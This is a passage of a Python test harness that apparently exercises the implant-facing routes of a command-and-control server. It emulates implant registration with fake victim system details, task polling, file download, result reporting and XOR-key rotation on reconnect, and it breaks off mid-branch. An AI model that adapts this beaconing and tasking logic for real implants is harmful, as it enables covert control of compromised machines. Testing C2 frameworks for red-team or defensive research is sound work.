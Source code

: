 ```python
        print("\nTesting reconnection...")
        response = requests.options(
            f"{self.base_url}/reconnect",
            headers=headers
        )
        
        if response.status_code == 200:
            # Update UNIQUE_XOR_KEY
            data = response.json()
            new_key = base64.b64decode(data['k']).decode()
            self.unique_xor_key = int(new_key)
            print(f"Got new UNIQUE_XOR_KEY: {self.unique_xor_key}")
        elif response.status_code == 410:
            print("Implant marked as inactive")
        
        return response.json()

def main():
    if len(sys.argv) < 3:
        print("Usage: python test_implant_routes.py <endpoint> <server_url> [workspace_uuid]")
        print("\nAvailable endpoints:")
        print("  register")
        print("  task")
        print("  download <file_id> <task_guid>")
        print("  result <task_guid> <result>")
        print("  reconnect")
        sys.exit(1)

    endpoint = sys.argv[1]
    server_url = sys.argv[2]
    workspace_uuid = sys.argv[3] if len(sys.argv) > 3 else None
    
    tester = ImplantAPITester(server_url, workspace_uuid)

    if endpoint == "register":
        # Test full registration flow
        tester.register()
        system_info = {
            "i": "192.168.1.100",
            "u": "testuser",
            "h": "TEST-PC",
            "o": "Windows 10",
            "p": 1234,
            "P": "test.exe",
            "r": True
        }
        tester.activate(system_info)
    
    elif endpoint == "task":
        tester.register()  # Need to register first
        tester.get_task()
    
    elif endpoint == "download":
        if len(sys.argv) < 5:
            print("Error: download requires <file_id> and <task_guid>")
            sys.exit(1)
        tester.register()  # Need to register first
        content = tester.download_file(sys.argv[3], sys.argv[4])
        print(f"Downloaded content length: {len(content)} bytes")
    
    elif endpoint == "result":
        if len(sys.argv) < 5:
            print("Error: result requires <task_guid> and <result>")
```